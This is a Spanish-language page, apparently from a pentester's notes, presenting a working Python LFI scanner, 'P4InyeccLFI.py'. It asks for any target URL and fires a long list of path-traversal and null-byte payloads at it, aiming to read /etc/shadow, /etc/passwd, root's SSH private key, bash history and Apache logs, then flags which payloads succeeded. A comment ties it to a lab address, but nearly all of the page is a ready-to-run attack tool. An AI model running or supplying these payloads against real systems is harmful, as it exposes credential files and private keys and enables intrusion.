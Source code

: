 # 👹 INYECCION DE RUTAS PARA BUSCAR INFO POR LFI                                     P4InyeccLFI.py

````python
// Some code

```python
#! programa para realizar inyecciones de rutas para vulnerabilidades de LFI - P4InyeccLFI.py - By P4IM0N

#?-----------------------------------------------------------------------------------------
#LIBRERIAS
import requests
from bs4 import BeautifulSoup
from tabulate import tabulate 

#?-----------------------------------------------------------------------------------------
#COLORES
COLOR_ROJO = "\033[91m"
COLOR_VERDE = "\033[92m"
COLOR_VIOLETA = "\033[95m"
COLOR_TURQUESA = "\033[96m"
COLOR_RESET = "\033[0m"

#?-----------------------------------------------------------------------------------------
#BANNER
banner = f'''

__________  _____ .___                                 .____   ___________.___ 
\______   \/  |  ||   | ____ ___.__. ____   ____  ____ |    |  \_   _____/|   |
 |     ___/   |  ||   |/    <   |  |/ __ \_/ ___\/ ___\|    |   |    __)  |   |
 {COLOR_TURQUESA}|    |  /    ^   /   |   |  \___  \  ___/\  \__\  \___|    |___|     \   |   |{COLOR_RESET}
 |____|  \____   ||___|___|  / ____|\___  >\___  >___  >_______ \___  /   |___|
              |__|         \/\/         \/     \/    \/        \/   \/         
{COLOR_VIOLETA}By P4IM0N{COLOR_RESET}'''
print(banner)

#?-----------------------------------------------------------------------------------------
#PAYLOAD LFI
payload_LFI = ['/etc/passwd',
                 '/etc/passwd%00',
  '../../../../../../etc/passwd', 
  '../../../../../../etc/passwd%00', 
  '..././..././..././..././..././etc/passwd',
  '..././..././..././..././..././etc/passwd%00',
  '....//....//....//....//....//etc/passwd',
  '....//....//....//....//....//etc/passwd%00',
  '/etc/issue',
  '/etc/issue%00',
  '../../../../../../etc/issue',
  '../../../../../../etc/issue%00',
  '..././..././..././..././..././etc/issue',
  '..././..././..././..././..././etc/issue%00',
  '....//....//....//....//....//etc/issue',
  '....//....//....//....//....//etc/issue%00',
  '/etc/profile',
  '/etc/profile%00',
  '../../../../../../etc/profile',
  '../../../../../../etc/profile%00',
  '..././..././..././..././..././etc/profile',
  '..././..././..././..././..././etc/profile%00',
  '....//....//....//....//....//etc/profile',
  '....//....//....//....//....//etc/profile%00',
  '/proc/version',
  '/proc/version%00',
  '../../../../../../proc/version',
  '../../../../../../proc/version%00',
  '..././..././..././..././..././proc/version',
  '..././..././..././..././..././proc/version%00',
  '....//....//....//....//....//proc/version',
  '....//....//....//....//....//proc/version%00',
  '/etc/shadow',
  '/etc/shadow%00',
  '../../../../../../etc/shadow',
  '../../../../../../etc/shadow%00',
  '..././..././..././..././..././etc/shadow',
  '..././..././..././..././..././etc/shadow%00',
  '....//....//....//....//....//etc/shadow',
  '....//....//....//....//....//etc/shadow%00',
  '/root/.bash_history',
  '/root/.bash_history%00',
  '../../../../../../root/.bash_history',
  '../../../../../../root/.bash_history%00',
  '..././..././..././..././..././root/.bash_history',
  '..././..././..././..././..././root/.bash_history%00',
  '....//....//....//....//....//root/.bash_history',
  '....//....//....//....//....//root/.bash_history%00',
  '/var/log/dmessage',
  '/var/log/dmessage%00',
  '../../../../../../var/log/dmessage',
  '../../../../../../var/log/dmessage%00',
  '..././..././..././..././..././var/log/dmessage',
  '..././..././..././..././..././var/log/dmessage%00',
  '....//....//....//....//....//var/log/dmessage',
  '....//....//....//....//....//var/log/dmessage%00',
  '/var/mail/root',
  '/var/mail/root%00',
  '../../../../../../var/mail/root',
  '../../../../../../var/mail/root%00',
  '..././..././..././..././..././var/mail/root',
  '..././..././..././..././..././var/mail/root%00',
  '....//....//....//....//....//var/mail/root',
  '....//....//....//....//....//var/mail/root%00',
  '/root/.ssh/id_rsa',
  '/root/.ssh/id_rsa%00',
  '../../../../../../root/.ssh/id_rsa',
  '../../../../../../root/.ssh/id_rsa%00',
  '..././..././..././..././..././root/.ssh/id_rsa',
  '..././..././..././..././..././root/.ssh/id_rsa%00',
  '....//....//....//....//....//root/.ssh/id_rsa',
  '....//....//....//....//....//root/.ssh/id_rsa%00',
  '/var/log/apache2/access.log',
  '/var/log/apache2/access.log%00',
  '../../../../../../var/log/apache2/access.log',
  '../../../../../../var/log/apache2/access.log%00',
  '..././..././..././..././..././var/log/apache2/access.log',
  '..././..././..././..././..././var/log/apache2/access.log%00',
  '....//....//....//....//....//var/log/apache2/access.log',
  '....//....//....//....//....//var/log/apache2/access.log%00',
  'C:\boot.ini']
#?-----------------------------------------------------------------------------------------
#FUNCION MAIN
def main():
    objetivo = input('Manito dame la URL OBJETIVO a la que le realizaremos pruebas de LFI: ')
    
    if objetivo:
        print(f'{COLOR_TURQUESA}//////////////////////////////////////////////////////////////////////////////////////{COLOR_RESET}')
        print(objetivo)
        print(f'{COLOR_TURQUESA}//////////////////////////////////////////////////////////////////////////////////////{COLOR_RESET}')
        try:
            for pload in payload_LFI:
                prueba_objetivo_LFI = requests.get(objetivo+pload)
                resultado_LFI = BeautifulSoup(prueba_objetivo_LFI.text, 'html5lib')
                for linea in resultado_LFI.find_all('code'):
                    if '/var/www/html' not in linea:
                        
                        if 'Warning:' in linea.text:
                            resultado_negativo_LFI = []
                            resultado_negativo_LFI.append([linea.text])
                            tabla_negativa = tabulate(resultado_negativo_LFI, [pload], tablefmt='grid')
                            print(COLOR_ROJO+tabla_negativa+COLOR_RESET)
                            print(f'{COLOR_VIOLETA}//////////////////////////////////////////////////////////////////////////////////////{COLOR_RESET}')
                            
                        else:
                            resultado_positivo_LFI = []
                            resultado_positivo_LFI.append([linea.text])
                            tabla_positivo = tabulate(resultado_positivo_LFI, [pload], tablefmt='grid')
                            print(COLOR_VERDE+tabla_positivo+COLOR_RESET)
                            print(f'{COLOR_VIOLETA}//////////////////////////////////////////////////////////////////////////////////////{COLOR_RESET}')
                            
                            
        except TypeError as error:
            print(f'Manito ocurrio este error: {error}')        
    
#http://10.10.166.228/lab1.php?file=
#?-----------------------------------------------------------------------------------------
#EJECUCION
if __name__=='__main__':
    try: 
        main()
    except KeyboardInterrupt:
        print('Gracias manioto por usar mi programa   :D')
        exit()    

#?-----------------------------------------------------------------------------------------


```
````
